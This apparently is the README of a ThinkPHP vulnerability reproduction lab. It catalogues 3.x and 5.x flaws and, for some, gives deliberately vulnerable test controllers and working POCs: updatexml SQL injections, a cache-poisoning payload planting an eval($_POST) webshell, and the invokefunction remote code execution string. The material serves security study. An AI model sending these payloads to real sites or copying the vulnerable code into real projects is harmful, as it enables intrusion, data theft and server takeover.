







## ThinkPHP 漏洞列表

### 一、3.x

>使用方法
>
>```bash
>cd /var/www/tp3
>```
>

#### ThinkPHP3.2.3_缓存函数设计缺陷可导致Getshell

| 标题     | ThinkPHP5.0.10-3.2.3缓存函数设计缺陷可导致Getshell |
| -------- | -------------------------------------------------- |
| 时间     | 2017-08-09                                         |
| 版本     | <= 3.2.3                                           |
| 文章链接 | <https://xz.aliyun.com/t/99>                       |


#### ThinkPHP3.2.3_最新版update注入漏洞

| 标题     | Thinkphp3.2.3最新版update注入漏洞         |
| -------- | ----------------------------------------- |
| 时间     | 2018-04-16                                |
| 版本     | <= 3.2.3                                  |
| 文章链接 | <https://www.anquanke.com/post/id/104847> |


#### ThinkPHP3.2.X_find_select_delete注入

| 标题     | thinkphp3.2 find_select_delete注入                           |
| -------- | ------------------------------------------------------------ |
| 时间     | 2018-08-23                                                   |
| 版本     | <= 3.2.3                                                     |
| 文章链接 | <https://xz.aliyun.com/t/2631><br /><https://xz.aliyun.com/t/2629> |

#### ThinkPHP3.X_order_by注入漏洞

| 标题     | ThinkPHP 3.X/5.X order by注入漏洞                   |
| -------- | --------------------------------------------------- |
| 时间     | 2018-08-29                                          |
| 版本     | <= 3.2.3                                            |
| 文章链接 | <https://mp.weixin.qq.com/s/jDvOif0OByWkUNLv0CAs7w> |


### 二、5.x

>使用方法
>
>```bash
>cd /var/www/tp5
>```
>

#### ThinkPHP5_SQL注入漏洞&&敏感信息泄露

| 标题     | ThinkPHP5 SQL注入漏洞 && 敏感信息泄露                        |
| -------- | ------------------------------------------------------------ |
| 时间     | 2017-07-03                                                   |
| 版本     | < 5.0.9                                                      |
| 文章链接 | https://xz.aliyun.com/t/125  <br /><https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html> |

>测试方法
>
>```bash
>git checkout 02f8e8a
>```
>
>测试代码
>
>```php
>public  function testsql()
>{
>   $ids = input('ids/a');
>   $result = db('user')->where('id', 'in', $ids)->select();
>   var_dump($result);
>}
>```
>
>POC
>
>```php
>testsql?ids[0,updatexml(0,concat(0xa,user()),0)]=1231
>```
>
>结果
>
>

#### ThinkPHP5.0.10-3.2.3_缓存函数设计缺陷可导致Getshell 

| 标题     | ThinkPHP5.0.10-3.2.3 缓存函数设计缺陷可导致Getshell |
| -------- | --------------------------------------------------- |
| 时间     | 2017-08-09                                          |
| 版本     | < 5.0.11                                            |
| 文章链接 | <https://xz.aliyun.com/t/99>                        |

  >测试方法
  >
  >```bash
  >git checkout 094dde5
  >```
  >
  >测试代码
  >
  >```php
  >public function add()
  >{
  >    $user = input('post.');
  >    $m=db('user')->where(['id'=> 1])->insert($user);
  >}
  >
  >public function cache()
  >{
  >    $m = db('user')->select();
  >    Cache::set('name',$m,3600);
  >}
  >```
  >
  >POC
  >
  >```php
  >post data:
  >    username=%2F%2F%0D%0A%24a%3Deval(%24_POST%5B%27a%27%5D)%3B%23
  >注：%2F%2F%0D%0A = //+回车
  >```
  >
  >结果
  >
  >
  >
  >
  >
  >
  >
  >其中文件路径和名称是 b0+68931cc450442b63f5b3d276ea4297 而
  >
  >md5('name') = b068931cc450442b63f5b3d276ea4297

#### ThinkPHP框架5.0.X_sql注入漏洞分析

| 标题     | ThinkPHP框架 5.0.x sql注入漏洞分析 |
| -------- | --------------------------------------------------- |
| 时间     | 2018-04-09                                          |
| 版本     | < 5.0.16                                            |
| 文章链接 | <https://xz.aliyun.com/t/2257>                        |

>测试方法
>
>```bash
>git checkout 7c13757
>```
>
>测试代码
>
>```php
>public  function testsql()
>    {
>        $username = input('get.username/a');
>        db('user')->where(['id'=> 1])->insert(['username'=>$username]);
>    }
>```
>
>POC
>
>```php
>testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
>```
>
>结果
>
>

#### ThinkPHP5.X_order_by注入漏洞

| 标题     | ThinkPHP 3.X/5.X order by注入漏洞                   |
| -------- | --------------------------------------------------- |
| 时间     | 2018-08-23                                          |
| 版本     | <= 5.1.22                                           |
| 文章链接 | <https://mp.weixin.qq.com/s/jDvOif0OByWkUNLv0CAs7w> |

>测试方法
>
>```bash
>git checkout 35e9878
>```
>
>测试代码
>
>```php
>public  function testsql()
>{
>   $order = input('get.order');
>   $m = db('user')->order($order)->find();
>   var_dump($m);
>}
>```
>
>POC
>
>```php
>testsql?order[id`|updatexml(1,concat(0x3a,user()),1)%23]=1
>```
>
>结果
>
>

#### ThinkPHP5.X_远程代码执行

| 标题     | ThinkPHP5.X 远程代码执行                                     |
| -------- | ------------------------------------------------------------ |
| 时间     | 2018-12-10                                                   |
| 版本     | 5.0.5-5.0.22<br />5.1.0-5.1.30                               |
| 文章链接 | <https://xz.aliyun.com/t/3570><br />https://paper.seebug.org/760/<br /><https://paper.seebug.org/770> |
>测试方法
>
>```bash
>git checkout 4fefa5e
>```
>
>测试代码
>
>```php
>public  function index()
>    {
>        //...无需实际代码
>     }
>    ```
>
>POC
>
>```php
>index?s=index/\think\container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
>```
>
>结果
>
>

